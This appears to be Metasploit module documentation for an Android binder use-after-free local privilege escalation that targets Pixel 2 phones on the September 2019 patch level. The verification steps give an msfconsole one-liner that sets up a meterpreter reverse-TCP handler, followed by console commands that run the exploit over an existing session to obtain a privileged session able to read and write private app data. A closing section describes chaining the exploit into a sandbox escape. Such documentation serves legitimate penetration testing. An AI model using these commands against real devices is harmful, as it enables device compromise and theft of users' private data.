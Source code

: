 ## Vulnerable Application

This exploit module currently targets a very specific build of Android on specific set of hardware targets:

 - Google Pixel 2 or Pixel XL 2 phones running the September 2019 security patch level.

This exploit module would have to be retargeted for any other potentially vulnerable build or hardware target.

One difficult issue with the Google Pixel 2 is that, while many Google phones have an unlocked bootloader, making it easy to download older Android revisions, the latest Pixel 2 updates show this feature has been disabled or broken [older revisions to the device firmware](https://developers.google.com/android/images). This may be a firmware bug or intentional, but Google themselves do not appear to have an answer [for the problem](https://support.google.com/pixelphone/thread/14920605?hl=en). For testing, you may need a phone never updated to a later Android revision.

## Verification Steps

 - Get an android meterpreter session on a Pixel 2 or Pixel XL 2 with the right kernel:

 `msfconsole -qx "use exploit/multi/handler; set payload android/meterpreter/reverse_tcp; set lhost $LHOST; set lport 4444; set ExitOnSession false; run -j`

 - Currently this only works on the Pixel 2 (and Pixel 2 XL) with september 2019 Security patch level. Validate the kernel version looks like this:

```
uname -a
Linux localhost 4.4.177-g83bee1dc48e8 #1 SMP PREEMPT Mon Jul 22 20:12:03 UTC 2019 aarch64
```

 - Run the exploit:

```
msf exploit(multi/handler) > use exploit/android/local/binder_uaf
msf exploit(android/local/binder_uaf) > set LHOST IPADDR
msf exploit(android/local/binder_uaf) > set LPORT 4448 (different from your Android meterpreter port)
LPORT => 4448
msf exploit(android/local/binder_uaf) > set SESSION -1
SESSION => -1
msf exploit(android/local/binder_uaf) > run
```

 - **Verify** the new session can read and write private application data (in /data/data/..../)

## Scenarios

This module illustrates a privesc that, when chained with other exploit vectors, could turn an unprivileged sandboxed exploit into a sandbox escape and system compromise. Note that the target application may need to match the kernel CPU type, so for instance a 64-bit Chrome would need to be targeted with a 64-bit kernel.
